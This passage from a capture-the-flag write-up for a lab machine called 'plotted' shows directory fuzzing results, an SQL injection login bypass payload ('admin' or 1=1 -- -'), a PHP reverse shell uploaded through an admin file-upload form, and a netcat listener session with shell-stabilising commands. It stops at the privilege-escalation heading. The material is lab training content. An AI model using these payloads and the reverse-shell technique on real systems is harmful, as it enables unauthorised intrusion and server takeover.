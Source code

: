 ```bash
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 1845ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 3009ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 284ms]
management              [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 244ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 282ms]
:: Progress: [4614/4614] :: Job [1/1] :: 204 req/sec :: Duration: [0:00:29] :: Errors: 0 ::
```

so here we found a directory called `management` which looks interesting, let's take a look at it.

![](/assets/images/plottedcms/Pasted image 20220222141111.png)

So here we have a **login** button.
![](/assets/images/plottedcms/Pasted image 20220222141233.png)
here we have the login form which we passed successfully using just a basic **SQLi** payload `admin' or 1=1 -- -`.

## Getting Access

### Upload the Shell

![](/assets/images/plottedcms/Pasted image 20220222141538.png)
So after enumerating the admin panel for a while, found a **file upload** form under the **settings** tab, so here we tried to upload a **php-reverse-shell** and got a successfully hit and we got our **reverse shell** back.

```bash
┌──(elliot@archlinux)-[~/data/plottedcms]-[192.168.225.72]-[git:(main) ✗]
└─$ nc -nvlp 4444
Connection from 10.10.214.35:49944
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:52:29 up 59 min,  0 users,  load average: 1.32, 1.31, 1.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@plotted:/$ ^Z
[1]  + 15789 suspended  nc -nvlp 4444
┌──(elliot@archlinux)-[~/data/plottedcms]-[192.168.225.72]-[git:(main) ✗]
└─$ stty raw -echo; fg
[1]  + 15789 continued  nc -nvlp 4444

www-data@plotted:/$ export TERM=xterm
www-data@plotted:/$ reset
```

Let's stablize our shell.

## Privilege Escalation
